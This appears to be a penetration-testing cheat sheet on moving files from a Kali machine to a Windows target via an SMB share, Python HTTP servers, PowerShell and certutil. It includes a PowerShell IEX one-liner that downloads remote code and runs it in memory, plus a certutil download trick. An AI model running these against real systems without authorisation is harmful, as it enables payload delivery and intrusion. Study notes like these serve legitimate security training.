 # File transfer

## SMB - from Windows to Kali or vice-versa

On Kali start a SMB share server on the folder you want to be shared
```
cd <path>
impacket-smbserver share $(pwd) -smb2support
```

On the target
```
net use \\<Kali IP>\share
net use
copy \\<Kali IP>\share\<file> .
dir
```

## HTTP - from Kali to target

```
cd <path>
sudo python -m SimpleHTTPServer 80
```
or
```
cd <path>
sudo python3 -m http.server 80
```

### download to Windows

PowerShell
```
Invoke-WebRequest -Uri 'http://<Kali IP>/<filename>' -OutFile <filename> 
```

PowerShell from cmd
```
powershell.exe -command Invoke-WebRequest -Uri http://<Kali IP>/<filename> -OutFile <filename>
```

Download and execute with `Invoke-Expression` without saving file
```
powershell.exe IEX(New-Object Net.WebClient).downloadstring(http://<Kali IP>/<filename>)
```


Certutil
```
certutil -urlcache -split -f 'http://<Kali IP>/<filename>' <path_destiny><filename>
```



## Links
- [file transfer cheatsheet Windows and Linux](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
- https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
- https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/
- https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html